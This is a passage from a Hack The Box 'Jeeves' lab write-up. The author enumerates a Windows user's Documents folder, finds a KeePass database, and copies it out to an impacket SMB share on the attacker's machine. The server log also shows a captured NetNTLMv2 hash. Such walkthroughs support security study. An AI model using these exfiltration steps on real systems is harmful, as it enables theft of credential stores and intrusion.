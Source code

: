 

# Shell as `Administrator`

### Enumeration

```bash
C:\Users\kohsuke\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\kohsuke\Documents

11/03/2017  10:18 PM    <DIR>          .
11/03/2017  10:18 PM    <DIR>          ..
09/18/2017  12:43 PM             2,846 CEH.kdbx
               1 File(s)          2,846 bytes
               2 Dir(s)   2,618,859,520 bytes free
```

On `kohsuke`'s directory `/Documents`, there's a KeePass file `CEH.kdbx`.

I transferred the file using smb server.

```bash
┌──(kali㉿kali)-[~/htb/jeeves/smb]
└─$ impacket-smbserver -smb2support share .
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.63,49684)
[*] AUTHENTICATE_MESSAGE (JEEVES\kohsuke,JEEVES)
[*] User JEEVES\kohsuke authenticated successfully
[*] kohsuke::JEEVES:aaaaaaaaaaaaaaaa:11538861055a2c132b5e81054030e556:010100000000000000d88225c48ddb0185b97d76f478b9570000000001001000710043006b0071006d006a005800590003001000710043006b0071006d006a005800590002001000590056006f0073006400470065004b0004001000590056006f0073006400470065004b000700080000d88225c48ddb01060004000200000008003000300000000000000000000000003000008ebe3f64021993185d65670d26d62fb0516389a31f45f5aeae171eeb63b88dc70a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003300000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:share)
[*] Disconnecting Share(1:IPC$)
```

### KeePass

```bash
C:\Users\kohsuke\Documents>copy .\CEH.kdbx \\10.10.14.3\share\CEH.kdbx
copy .\CEH.kdbx \\10.10.14.3\share\CEH.kdbx
        1 file(s) copied.
```
